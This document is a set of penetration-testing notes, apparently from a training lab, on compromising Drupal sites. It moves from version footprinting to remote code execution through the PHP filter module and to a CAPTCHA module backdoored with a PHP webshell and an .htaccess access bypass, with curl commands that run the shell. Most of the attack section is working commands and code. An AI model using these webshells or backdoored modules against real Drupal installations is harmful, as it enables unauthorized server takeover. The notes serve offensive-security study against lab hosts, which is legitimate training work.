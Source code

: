 ### Footprinting + Enumeration
```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

```bash
curl -s http://drupal.inlanefreight.local | grep Drupal
curl -s http://drupal.inlanefreight.local/node/1
```
> [!NOTE] Note
> Not every Drupal installation will look the same or display the login page or even allow users to access the login page from the internet.

Trying this against the latest Drupal version will give a 404
```bash
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

### Exploitation
##### RCE before version 8.0
In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."
![](https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png)

`Save configuration` -> `Content` -> `Add content` -> `Basic page`

Slap this bad boy in there (**avoid driveby shooters by using md5 hash**) and make sure the`Text format` drop-down is set to `PHP code`
```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
Node number may vary
```bash
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```
##### RCE 8.0 and up
From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first.
```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Install the plugin (may be under the `Extend menu` depending on the Drupal version)

`Administration` -> `Reports` -> `Available updates` -> `Browse` -> Install

From there we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7. **Be sure to select `PHP code` from the `Text format` dropdown**

##### Uploading a Backdoor Module
Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). 
```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
Create a webshell
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
Create a `.htaccess` file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
Copy both files to the captcha folder and tar it up
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
Install: `Manage` -> `Extend` -> `+ Install new module` -> `Upload and Install`
Exploit
```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
